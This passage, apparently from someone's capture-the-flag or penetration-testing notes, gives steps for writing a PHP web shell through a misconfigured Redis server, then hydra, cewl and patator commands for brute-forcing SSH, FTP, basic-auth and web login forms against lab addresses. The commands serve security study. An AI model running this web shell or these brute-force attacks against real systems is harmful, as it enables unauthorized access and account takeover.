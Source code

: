 https://dl.packetstormsecurity.net/1511-exploits/redis-exec.txt

For the latter method, a website, the following are the steps:

1. install the redis-cli on your attacking machine. `sudo apt install redis-tools`
2. connect to the server: `redis-cli -h 10.10.8.4`
3. run the following commands to set and save the database:

        - config set dir /var/www/html
        - config set dbfilename "shell.php"
        - set 1 "<?php echo shell_exec($_GET['e'].' 2>&1'); ?>"
        - save
4. all going well, navigate to /shell.php?e=id on the webserver and see if the username has shown up
5. because of how mangled the file is, and the simplicity of the web shell, if you want to catch a reverse shell remember to url encode the payload you add to `?e=`

## Brute forcing with hydra, cewl, patator

CeWL generates a wordlist from a page. `cewl 192.168.154.10 > words.txt` will create a mini list, which was useful in one challenge based on bruteforcing with this list.

For hydra, `-l` specifies a username, `-L` a username source file, `-p` a password and `-P` a password list

SSH or FTP (swap the last bit by protocol):

`hydra -L users.txt -P passwords.txt 192.168.154.10 ssh`

Basic auth:

`hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f 10.10.238.52 http-get`

Regular login form (for wordpress dont do this, just use wp-scan with the -U, -P options):

`hydra -l admin -P ./rockyou.txt 10.10.207.186 http-post-form "/Account/login.php:username=^USER^&password=^PASS^&login=login:Login failed"`

The below targets an aspx page, that needed viewstate to go with it in order to get the error message back:

`hydra -l admin -P ./rockyou.txt 10.10.207.186 http-post-form "/Account/login.aspx:__VIEWSTATE=pIru3H%2F3LYg1qp3lNSwHX1ALuENNV6tddZ32Zp4xRIs57ec4jlYH9sp8EHtZ0sp66EsCaToBXZLEbw62lNBT7XuKpv84ZHetBU3stATD5DYczl9JagBTENtoK%2B6lyNFyDsrRWb34%2F9jXclG%2FsQWa1tJXjQAYZJP2MJNhNaH2WMIL%2FQf9&__EVENTVALIDATION=lQWGlUQ0Fmhz%2BuiWoqOKaexWGfGTltskH%2FV3RsXfmd%2B8N5m8JCLGWXUm7pFZQj0G0QjJMd3MLudMx0zUAlot%2BanlZVtlggDnm3e%2B2DNiDwnhrETOWRZdwtNypSULvwzs8ZlD1SiHFFPASQz1PJN12l5Fi3uL4UCohXb%2BBjCo1nU5Sz7I&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"`

If a CSRF is required, then `patator` works better:

`patator http_fuzz method=POST --threads=1 timeout=5 url="http://10.11.1.11/scp/login.php" body="__CSRFToken__=_CSRF_&do=scplogin&userid=helpdesk&passwd=COMBO00&submit=Log+In" 0=/usr/share/wordlists/rockyou.txt before_urls="http://10.11.1.11/scp/login.php" before_egrep='_CSRF_:<input type="hidden" name="__CSRFToken__" value="(\w+)" />' -x ignore:fgrep='Access denied' proxy="http://127.0.0.1:8080" header="Cookie: OSTSESSID=s23pkfp9o9mo10kb8bea33ie76"`

Another example, CSRF with `patator` (note sites like [pythex](https://pythex.org/) are good for getting the regex for csrf right - invalid regex results in NoneType has no attribute group etc errors):
